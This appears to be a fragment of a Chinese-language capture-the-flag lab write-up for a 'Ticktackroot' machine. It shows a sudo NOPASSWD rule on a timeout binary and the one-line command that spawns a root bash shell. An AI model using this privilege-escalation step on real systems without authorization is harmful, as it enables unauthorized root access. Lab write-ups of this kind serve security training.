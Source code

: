```shell

Exit status:
  124  if COMMAND times out, and --preserve-status is not specified
  125  if the timeout command itself fails
  126  if COMMAND is found but cannot be invoked
  127  if COMMAND cannot be found
  137  if COMMAND (or timeout itself) is sent the KILL (9) signal (128+9)
  -    the exit status of COMMAND otherwise

GNU coreutils online help:
Report any translation bugs to
Full documentation
or available locally via: info '(coreutils) timeout invocation'

robin@TheHackersLabs-Ticktackroot:~$ sudo /usr/bin/timeout_suid /bin/bash
Try '/usr/bin/timeout_suid --help' for more information.

robin@TheHackersLabs-Ticktackroot:~$ sudo /usr/bin/timeout_suid 10s /bin/bash
root@TheHackersLabs-Ticktackroot:/home/robin# whoami
root

```

​    有个程序(ALL) NOPASSWD: /usr/bin/timeout_suid  

​	查看help，执行指定命令，并在指定时间(DURATION)后终止该命令，随便输入个时间，/bin/bash提权

​	`sudo /usr/bin/timeout_suid 10s /bin/bash` 

>>>>>>> 1b610c84 (上传)
